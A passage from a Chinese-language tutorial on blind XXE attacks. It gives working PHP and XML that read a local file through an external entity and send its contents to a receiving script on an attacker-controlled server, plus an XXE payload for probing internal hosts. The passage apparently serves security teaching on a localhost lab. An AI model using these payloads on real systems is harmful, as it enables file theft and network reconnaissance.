 需要使用blind xxe漏洞去利用。

### blind xxe 漏洞

对于传统的XXE来说，要求攻击者只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，如果没有回显则可以使用Blind XXE漏洞来构建一条带外信道提取数据。

创建test.php写入以下内容：

```php
<?php  
file_put_contents("test.txt", $_GET['file']) ;  
?>
```

创建index.php写入以下内容：

```php
<?php  
$xml=<<<EOF  
<?xml version="1.0"?>  
<!DOCTYPE ANY[  
<!ENTITY % file SYSTEM "file:///C:/test.txt">  
<!ENTITY % remote SYSTEM "http://localhost/test.xml">  
%remote;
%all;
%send;  
]>  
EOF;  
$data = simplexml_load_string($xml) ;  
echo "<pre>" ;  
print_r($data) ;  
?>
```

创建test.xml并写入以下内容：

```xml
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://localhost/test.php?file=%file;'>">
```

当访问http://localhost/index.php, 存在漏洞的服务器会读出text.txt内容，发送给攻击者服务器上的test.php，然后把读取的数据保存到本地的test.txt中。

注：xxe的利用姿势以及绕过防御姿势有很多，这里不再一一介绍啦

## 主机探测

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "http://10.10.10.1">
]>
<x>&f;</x>
```

对ip地址进行探测或者使用FTP协议探测

## 内网探测
